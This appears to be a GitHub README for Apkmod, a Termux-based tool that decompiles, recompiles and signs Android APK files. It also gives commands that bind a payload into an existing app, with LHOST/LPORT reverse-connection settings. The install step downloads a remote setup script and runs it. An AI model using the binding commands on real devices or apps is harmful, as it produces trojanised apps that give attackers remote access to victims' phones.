 # Apkmod v1.5
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Now you can use a optional option `-a` to use __aapt2__ for __binding__ and __recompiling__. Why aapt2 ? Because some apps can't recompile with __aapt__ but __aapt2__ can do it. But I can't drop __aapt__ support because some apps can't recompile with __aapt2__ so first recompile or bind without __aapt2__ ( `-a` ) then if you failed then try with __aapt2__. For example `apkmod -a -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. 

### Size Comparision
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.
